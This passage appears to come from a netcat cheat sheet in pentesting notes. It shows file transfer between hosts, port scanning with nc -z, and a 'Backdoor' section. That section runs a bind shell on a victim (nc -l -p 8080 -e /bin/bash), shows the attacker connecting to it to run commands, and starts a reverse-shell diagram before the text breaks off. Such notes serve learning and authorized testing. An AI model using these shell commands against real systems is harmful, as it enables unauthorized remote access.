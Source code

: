 Client (received from server)

```
netcat 10.0.0.1 2222 > file
```

#### Client --> Server

Client (sending to listener)

```
cat file | netcat 10.0.0.1 2222
```

Listener (received from client)

```
netcat -l -p 2222 > file
```

### Port scanning

```
nc -v -w 3 (-p 80) -z <TARGET_IP> <START_PORT>-<END_PORT>
```

- `-z`: minimal data to send
- `-v`: tell us when connection is made (enables us to know the port is open or not)
- `-w 3`: no wait more than 3 seconds on EACH port
- `-p 80`: **LOCAL port** to connect to

### Backdoor

#### Normal shell listener

```
[Attakcer] --> |FW| --> [Victim]
  Client                 Listener
```

Listener (run on victim)

```
nc -l -p 8080 -e /bin/bash
```

Client (attacker)

```
nc 184.29.20.198 8080
ls
whoami
pwd
```

#### Reverse shell

```
[Attakcer] <--------- [Victim]
 Listener              Client
```
